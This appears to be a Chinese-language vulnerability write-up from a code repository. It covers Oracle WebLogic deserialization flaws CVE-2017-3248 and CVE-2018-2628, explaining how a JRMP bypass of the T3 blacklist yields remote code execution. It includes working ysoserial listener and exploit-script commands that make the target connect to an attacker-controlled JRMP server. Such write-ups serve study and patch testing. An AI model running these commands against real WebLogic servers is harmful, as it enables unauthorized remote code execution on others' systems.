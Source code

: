 # CVE-2017-3248&CVE-2018-2628 反序列化
影响版本:
```
Oracle WebLogic Server10.3.6.0
Oracle WebLogic Server12.2.1.2
Oracle WebLogic Server12.2.1.3
Oracle WebLogic Server12.1.3.0
```
## 原理
CVE-2017-3248该漏洞主要使用JRMP协议来绕过之前对T3协议的反序列化黑名单,首先通过T3协议发送反序列化payload使得目标成为一个JRMP客户端来连接我们监听的恶意JRMP服务端,然后客户端获取我们JRMP服务端发送的反序列化数据后会再次进行反序列化,从而造成二次反序列化RCE.
### JRMP模块利用流程 
1. 在vps上监听一个JRMP Server  
`java -cp ysoserial.jar  ysoserial.exploit.JRMPListener 9999 CommonsCollections1 "touch /tmp/test.txt" `
![](1.png)
2. 发送payload使目标成为一个JRMP客户端来加载JRMP Server上的远程恶意类.  
` python2 .\2018-2628.py 127.0.0.1 7001 ..\ysoserial.jar 192.168.126.129 9999 JRMPClient`
![](2.png)

#### CVE-2018-2628
而CVE-2018-2628为CVE-2017-3248黑名单修复的绕过,在CVE-2017-3248的补丁中,主要是在`resolveClass`中对`java.rmi.registry.Registry`接口进行了黑名单过滤,该漏洞则是使用了`java.rmi.activation.Activator`来替代`java.rmi.registry.Registry`接口进行远程加载从而绕过了黑名单.

**参考**  
https://xz.aliyun.com/t/8073#toc-0  
https://xz.aliyun.com/t/10171#toc-0  
http://xxlegend.com/2018/06/20/  CVE-2018-2628%20%E7%AE%80%E5%8D%95%E5%A4%8D%E7%8E%B0%E5%92%8C%E5%88%86%E6%9E%90/